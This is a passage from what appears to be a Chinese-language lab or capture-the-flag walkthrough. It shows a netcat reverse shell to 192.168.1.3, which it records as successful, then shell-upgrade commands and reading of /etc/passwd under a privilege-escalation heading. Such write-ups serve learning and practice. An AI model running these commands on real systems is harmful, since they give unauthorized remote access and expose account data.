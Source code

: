 ```
nc -e /bin/bash 192.168.1.3 283
```

![image-20250324185247021](assets/image-20250324185247021.png)

![image-20250324185308068](assets/image-20250324185308068.png)

成功



## 提权

### python转换终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20250324185334897](assets/image-20250324185334897.png)

失败



### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```

![image-20250324185403083](assets/image-20250324185403083.png)



### 查看用户信息

```
cat /etc/passwd
```

